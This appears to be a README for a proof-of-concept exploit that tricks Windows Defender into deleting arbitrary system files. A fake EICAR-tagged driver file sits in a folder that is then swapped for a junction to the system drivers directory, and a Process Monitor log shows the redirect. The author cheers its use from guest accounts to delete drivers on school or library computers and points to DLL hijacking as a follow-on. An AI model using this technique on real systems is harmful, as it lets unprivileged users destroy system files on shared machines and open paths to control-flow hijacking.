 (This works from a guest ACC, if you just want to gain arbitrary delete to bypass UAC, there are much easier ways!)

The purpose of this PoC is to gain arbitrary deletion rights as system (basically make windows defender delete whatever we want).
This would work from a guest account (meaning you could delete drivers on school/library computers! :D).

Furthermore, deleting arbitrary dlls can lead to hijacking issues, or files in windows\temp and programdata, which can then be recreated by the user the potentially hijack control flow of critical programs.


Current steps in the PoC:

1. Create a file called 3ware.sys (driver we are targeting) in a folder called eicar on the desktop. The content of our file is an EICAR test string.
2. Wait 5 seconds, delete our fake 3ware.sys file, and turn our folder into a junction to c:\windows\system32\drivers32

In procmon (filter on 3ware.sys), you can clearly see that defender is unaware that the file has been deleted and its folder turned into a junction.
It begins checking the actual driver!

You should be able to delete the real driver, if you time the switch right before it tries to delete our fake file with eicar string.
The problem with switching too early is that it will read the real driver, and since its obviously not a virus, it won't try to delete it.

Example output in procmon:


```
7:59:52.6718391 AM	MsMpEng.exe	2124	FileSystemControl	C:\Users\guest1\Desktop\eicar\3ware.sys	OPLOCK HANDLE CLOSED	Control: FSCTL_REQUEST_OPLOCK
7:59:52.6719846 AM	MsMpEng.exe	2124	CreateFile	C:\Users\guest1\Desktop\eicar\3ware.sys	SUCCESS	Desired Access: Read Data/List Directory, Read Attributes, Synchronize, Disposition: Open, Options: Synchronous IO Non-Alert, Non-Directory File, Complete If Oplocked, Attributes: N, ShareMode: Read, Write, Delete, AllocationSize: n/a, OpenResult: Opened
7:59:52.6720228 AM	MsMpEng.exe	2124	ReadFile	C:\Users\guest1\Desktop\eicar\3ware.sys	SUCCESS	Offset: 0, Length: 68, Priority: Normal
7:59:52.6720763 AM	MsMpEng.exe	2124	CloseFile	C:\Users\guest1\Desktop\eicar\3ware.sys	SUCCESS	
7:59:52.6720932 AM	MsMpEng.exe	2124	CloseFile	C:\Users\guest1\Desktop\eicar\3ware.sys	SUCCESS	
7:59:56.1107248 AM	lpe.exe	6684	CreateFile	C:\Users\guest1\Desktop\eicar\3ware.sys	SUCCESS	Desired Access: Read Attributes, Delete, Disposition: Open, Options: Non-Directory File, Open Reparse Point, Attributes: n/a, ShareMode: Read, Write, Delete, AllocationSize: n/a, OpenResult: Opened
7:59:56.1108337 AM	lpe.exe	6684	QueryAttributeTagFile	C:\Users\guest1\Desktop\eicar\3ware.sys	SUCCESS	Attributes: A, ReparseTag: 0x0
7:59:56.1108719 AM	lpe.exe	6684	SetDispositionInformationFile	C:\Users\guest1\Desktop\eicar\3ware.sys	SUCCESS	Delete: True
7:59:56.1108934 AM	lpe.exe	6684	CloseFile	C:\Users\guest1\Desktop\eicar\3ware.sys	SUCCESS	
7:59:56.1128859 AM	MsMpEng.exe	2124	CreateFile	C:\Windows\System32\drivers\3ware.sys	REPARSE	Desired Access: Read Attributes, Disposition: Open, Options: Open For Backup, Open Reparse Point, Attributes: n/a, ShareMode: Read, Write, Delete, AllocationSize: n/a, OpenResult: <unknown>
7:59:56.1130086 AM	MsMpEng.exe	2124	CreateFile	C:\Windows\System32\drivers\3WARE.SYS	NAME NOT FOUND	Desired Access: Read Attributes, Disposition: Open, Options: Open For Backup, Open Reparse Point, Attributes: n/a, ShareMode: Read, Write, Delete, AllocationSize: n/a
7:59:56.1132937 AM	MsMpEng.exe	2124	CreateFile	C:\Windows\System32\drivers\3ware.sys	REPARSE	Desired Access: Read Attributes, Disposition: Open, Options: Open For Backup, Open Reparse Point, Attributes: n/a, ShareMode: Read, Write, Delete, AllocationSize: n/a, OpenResult: <unknown>
7:59:56.1136595 AM	MsMpEng.exe	2124	CreateFile	C:\Windows\System32\drivers\3WARE.SYS	NAME NOT FOUND	Desired Access: Read Attributes, Disposition: Open, Options: Open For Backup, Open Reparse Point, Attributes: n/a, ShareMode: Read, Write, Delete, AllocationSize: n/a
```

You can clearly see the switch to our real driver :) (I had already deleted 3ware.sys with another PoC, which is why it says not found, can't be bothered to set-up a clean vm!)
